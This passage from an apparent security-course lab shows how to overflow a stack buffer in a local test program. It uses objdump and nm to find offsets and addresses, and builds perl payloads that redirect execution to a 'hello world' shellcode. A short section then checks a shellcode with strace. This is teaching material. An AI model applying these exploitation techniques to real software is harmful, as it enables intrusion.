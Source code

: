 All we need to do is to pad the legitimately reserved space until the saved return address, then overwrite it with the address of `machine_code`. Thus we will probably need 16 + 8 (the saved `rbp`) bytes of padding, but remember that we can't rely on the layout we see in C and must inspect the binary:

```
$ objdump -d -M intel ./vuln
...
0000000000401126 <main>:
  401126:       55                      push   rbp
  401127:       48 89 e5                mov    rbp,rsp
  40112a:       48 83 ec 10             sub    rsp,0x10    <---- Here we see that there are, indeed, just 16 bytes reserved on this stack frame
...
```

We then determine the address of the global buffer which holds our code and craft our second payload (remember to reverse the bytes because our systems are little endian):

```
$ nm ./vuln | grep machine_code
0000000000404060 T machine_code

$ perl -e 'print "A" x (16 + 8) . "\x60\x40\x40\x00\x00\x00\x00\x00"'
```

Now all we need to do is concatenate our two payloads:

```
$ perl -e "print \"$(hexdump -v -e '"\\" 1/1 "x%02x"' ./hello_shellcode.bin)\" . \"A\" x (128 - 42) . \"A\" x (16 + 8) . \"\x60\x40\x40\x00\x00\x00\x00\x00\"" | ./vuln
Hello, world!
[1]    53760 done                              perl -e  |
       53762 segmentation fault (core dumped)  ./vuln
```

As you can see, even with simple exploits, payloads quickly become unwieldy. Our advice is to make use of a script in a language like python. There is one such script example in the task directory.

Even though we succeeded in printing our message, the program then ended abruptly with a _Segmentation fault_. Pause for a second to figure out why that is.

<details><summary>Answer here</summary></details>

## 05. Tutorial: Debugging shellcodes

How can we **know** that our shellcode worked properly? Sometimes its external effects are not immediately visible; if it involves any system calls, we can make use of `strace`:

```
$ printf '1'$(hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin) | strace ./vuln2
execve("./vuln2", ["./vuln2"], 0x7ffdb027a9d0 /* 77 vars */) = 0
....
exit(42)                                = ?
+++ exited with 42 +++
```
